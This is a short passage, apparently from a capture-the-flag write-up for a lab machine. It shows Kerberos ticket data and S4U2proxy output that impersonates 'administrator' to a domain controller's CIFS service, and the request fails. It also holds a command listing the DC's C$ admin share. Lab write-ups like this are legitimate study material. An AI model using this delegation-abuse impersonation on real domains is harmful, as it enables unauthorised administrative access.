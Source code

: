 ```
      oIGzMIGwMIGtoBswGaADAgEXoRIEED31PP0XeDq+dvWud05/Hu+hDRsLU1VQUE9SVC5IVEKiGjAYoAMC
      AQqhETAPGw1hZG1pbmlzdHJhdG9yowcDBQBAoQAApREYDzIwMjMxMTE2MTc0NTE1WqYRGA8yMDIzMTEx
      NzAzNDUxNVqnERgPMjAyMzExMjMxNzQ1MTVaqA0bC1NVUFBPUlQuSFRCqRIwEKADAgEBoQkwBxsFR1I0
      WSQ=

[*] Impersonating user 'administrator' to target SPN 'cifs/DC.support.htb'
[*] Building S4U2proxy request for service: 'cifs/DC.support.htb'
[*] Using domain controller: dc.support.htb (::1)
[*] Sending S4U2proxy request to domain controller ::1:88

[X] KRB-ERROR (13) : KDC_ERR_BADOPTION


```

```
ls \\DC.domain.local\C$
```
![](assets/Support_assets/Pasted%20image%2020231116203809.png)

CN=Shared Support Accounts,CN=UsersDC=support,DC=htb
